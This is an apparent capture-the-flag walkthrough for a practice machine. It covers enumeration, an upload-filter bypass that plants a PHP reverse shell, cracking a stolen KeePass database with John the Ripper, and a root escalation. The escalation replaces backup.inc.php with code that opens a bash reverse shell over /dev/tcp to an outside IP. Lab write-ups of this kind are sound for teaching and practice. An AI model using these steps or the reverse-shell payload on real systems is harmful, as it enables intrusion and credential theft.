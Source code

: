# User flag

Nmap shows 4 open ports

In port 80, there is a web server, with a login page

We try sqli but fail

Lets explore some directories using gobuster

We find 2 directories: `css`  and `cloud` 

We have some sort of storage in `cloud`

We can upload an external URL here

Download the reverse shell script from pentest-monkey

Open a simple python server using `python3 -m http.server 1234` 

Upload the file URL as:

`http://IP:Port/reverse-shell.php#.png`

This will bypass the filter

Make sure you are listening on the port mentioned in the reverse-shell

We will get a shell

In `/opt` , we find a `dataset.kbdx`  file. Open a simple server on the victim, and transfer the dataset to your device

We can view the dataset using `keepassxc` 

Let’s crack the password using John the ripper first

```bash
keepass2john dataset.kbdx > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Now, open the keepass, we see password for the sysadmin

Get the local.txt flag


# Root flag

In the scripts directory, when reading the code, we see that there is a  `backup.inc.php` file

Let’s delete it

Create your own `backup.inc.php` file, which should contain:

```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.17.20.243/1337 0>&1'");
```

Open a simple python server, and bring it to the victim machine

Make sure you are listening on the specified port

We will now get shell as a root user

Get the flag
